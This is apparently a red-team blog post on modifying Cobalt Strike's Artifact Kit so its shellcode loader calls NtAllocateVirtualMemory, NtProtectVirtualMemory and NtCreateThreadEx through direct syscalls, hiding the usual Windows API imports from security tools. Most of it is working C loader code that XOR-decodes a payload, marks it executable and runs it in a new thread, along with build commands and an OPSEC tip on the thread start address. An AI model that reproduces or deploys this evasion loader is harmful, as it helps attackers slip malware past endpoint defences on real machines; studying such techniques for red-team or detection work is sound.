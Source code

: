 ```yaml
---
title: Integrating Direct Syscalls in Cobalt Strike's Artifact Kit
date: 2022-06-10 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
#layout: post
description: Using InlineWhispers to implement Direct Syscalls in Cobalt Strike's Artifact Kit
---
```


<p align="center">
     <img src="https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/cobaltsyscalls/syscalls.png">
</p>

## Resources

[Using Direct Syscalls from Beacon Object Files and MinGW](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)

[Implementing Syscalls in the Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)

[Using Direct Syscalls in Cobalt Strike's Artifact Kit - YT](https://www.youtube.com/watch?v=mZyMs2PP38w&t=21s&ab_channel=RaphaelMudge)

[InlineWhispers](https://github.com/outflanknl/InlineWhispers)

## Methodology

Find function calls you would like to replace in a function module like `spawn`:
- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`
- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`

Add the required functions in `functions.txt` which uses `syscalls.asm` (generated by Syswhispers1) and generates `syscalls-asm.h` to incorporate functions specified: `python3 InlineWhispers.py`
- Copy over `syscalls-asm.h` and `Syscalls.h` to `src-common/`. 
- Replace `Windows.h` in `Syscalls.h` to `windows.h`
- To use the generated `inline-assembly` using the `mingw` compiler, we change the dialect of masm to the *intel syntax* (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)).
	- Edit `build.sh` and the the dialect to the `$options` variable: `export options= -0s -masm=intel`
- Edit `patch.c` as an example template. Split `x64` and `x86` code as they require seperate versions of inline-whispers. Add the `syscalls-asm.h` header to include the functions.
	```c
	#elif _M_X64
	#include "syscalls-asm.h"
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}

	#else
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}
	#endif
	```
Setup requirements to replace the functions calls. (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/))
- Start by grabbing the approprate function prototypes and incorporating it in the program.
	```c
	[.............]
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	} [................]
	```
- Add variables as required/stated in the blog.
	```c
	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;

	        [.........]
	```
- Replace `ptr` in the function module to the `base_address` variable defined above to stay in convention with the variables in the blog.

Replace the function calls to their NT equivalents similar to the blog.
- Replace `VirtualAlloc()` with: `NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`
	- Replace `calc_len to length`
- Replace `VirtualProtect()` with: `NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&calc_len, PAGE_EXECUTE_READ, &oldprotect);`
	- Replace `calc_len to length`
	- Replace `oldprotect` to `old`
- Replace `CreateThread` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);`
	- Declare the variable `HANDLE thandle = NULL` 
> **OPSEC**: `NtCreateThreadEx` starts the thread using `base_addr` which has a start address that is not backed by a module on disk.
	- Replace `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);` to make the start address the `run` function and the `base_addr` is passed as an argument. 
- Sample: (Replace `injector.c` and `patch.c` similarly to implement direct syscalls in all artifacts)
	```c
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	}

	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;
	        HANDLE thandle = NULL;

	        /* allocate the memory for our decoded payload */
	        /*base_addr = VirtualAlloc(0, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);*/
	        NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	        int x;
	        for (x = 0; x < length; x++) {
	                char temp = *((char *)buffer + x) ^ key[x % 4];
	                *((char *)base_addr + x) = temp;
	        }

	        /* propagate our key function pointers to our payload */
	        set_key_pointers(base_addr);

	        /* change permissions to allow payload to run */
	        /*VirtualProtect(base_addr, length, PAGE_EXECUTE_READ, &old);*/
	        NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&length, PAGE_EXECUTE_READ, &old);

	        /* spawn a thread with our data */
	        /*CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&run, base_addr, 0, NULL);*/
	        NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);
	}
	```
	
Validate the syscalls: `VirtualAlloc()`, `VirtualProtect()` and `CreateThread` shouldn't appear now.
- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`
- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`
> **NOTE**: `VirtualProtect` and `VirtualQuery` are called by C runtimes linked into the default mingw 64bit binaries hence these functions still appear in the import table.
